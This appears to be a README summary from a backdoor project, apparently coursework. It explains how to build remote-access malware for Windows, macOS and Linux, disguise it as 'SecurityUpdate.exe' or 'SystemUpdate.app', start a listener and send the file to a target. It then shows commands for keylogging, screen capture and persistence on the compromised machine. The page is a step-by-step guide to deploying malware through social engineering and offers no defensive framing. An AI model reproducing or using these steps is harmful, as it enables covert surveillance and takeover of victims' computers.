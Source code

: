 ### Step 5: Control the Target

Now you can execute commands:

```bash
[192.168.1.105]> help_advanced     # Show all commands
[192.168.1.105]> keylog_start      # Start keylogger
[192.168.1.105]> screenshot        # Capture screen
[192.168.1.105]> persist_install   # Add persistence
```

---

## 📁 File Structure Explained

```
exploitation/
│
├── 📘 GUIDES (Read These)
│   ├── EXECUTABLE_GUIDE.md        ← How to build .exe/.app
│   └── SUMMARY.md                 ← File Summary (you are here)
│
├── 🔧 BUILDERS (Run These)
│   ├── build_executable.py        ← Build .exe/.app ⭐ USE THIS
│
├── 🎨 ICONS (Optional)
│   └── icons/
│       ├── README.md              ← How to create icons
│       ├── windows.ico            ← Windows icon (you create)
│       └── macos.icns             ← macOS icon (you create)
│
└── 📦 OUTPUT (Files to Send)
    ├── payloads/                  ← Executables here
    │   ├── SecurityUpdate.exe     ← Windows malware
    │   ├── SystemUpdate.app/      ← macOS malware
    │   └── system-update          ← Linux malware
    └── malware_payload.py         ← Python script malware
```

---

## 🎓 Quick Start for Beginners

### Absolute Fastest Way to Get Started:

```bash
# 1. Navigate to folder
cd /Users/kaweewatnoisuwan/Desktop/DES484_Backdoor/exploitation

# 2. Build Windows malware (one command!)
python3 build_executable.py 192.168.1.100 5555 windows

# 3. Start server (in new terminal)
cd ..
python3 server.py

# 4. Find your malware
cd exploitation/payloads
open .   # Opens folder

# 5. Send SecurityUpdate.exe to target
# 6. Target opens it → You get connection!
```
